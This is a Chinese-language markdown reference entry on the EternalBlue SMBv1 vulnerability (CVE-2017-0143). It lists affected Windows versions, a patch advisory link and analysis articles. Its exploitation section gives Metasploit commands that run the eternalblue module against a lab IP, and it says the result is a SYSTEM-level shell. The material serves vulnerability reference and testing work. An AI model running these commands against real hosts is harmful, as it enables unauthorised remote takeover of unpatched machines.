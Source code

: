 ### CVE-2017-0143

#### 描述

Eternalblue通过TCP端口445和139来利用SMBv1和NBT中的远程代码执行漏洞，恶意代码会扫描开放445文件共享端口的Windows机器，无需用户任何操作，只要开机上网。大名鼎鼎的永恒之蓝漏洞

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10          | x86/x64          |         |        |                    |
| Windows 10          | x86/x64          | 1511    |        |                    |
| Windows 10          | x86/x64          | 1607    |        |                    |
| Windows 7           | x86/x64          |         | SP1    | &#10004; |
| Windows 8.1         | x86/x64          |         |        |                    |
| Windows Rt 8.1      |                  |         |        |                    |
| Windows Server 2008 | x86/x64          |         | SP2    |                    |
| Windows Server 2008 | x86/x64          | R2      | SP1    |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2016 |                  |         |        |                    |
| Windows Vista       | x86/x64          |         | SP2    |                    |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-0143
```

#### 利用方式

直接用msf就行，方便快捷，测试系统Windows 7 SP1 x64

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.0.128
run
```

![image-20200818114043309](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2017-0143_msf_1.png)

并且权限是system的

![image-20200818114925926](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2017-0143_msf_2.png)


#### 分析文章
- https://www.anquanke.com/post/id/86270
- https://github.com/worawit/MS17-010/blob/master/BUG.txt
- https://yi0934.github.io/2019/04/08/CVE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/ms17-010/
- https://cy2cs.top/2020/08/22/%E3%80%90owva%E3%80%91%E6%B0%B8%E6%81%92%E4%B9%8B%E8%93%9D%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/
- https://paper.seebug.org/280/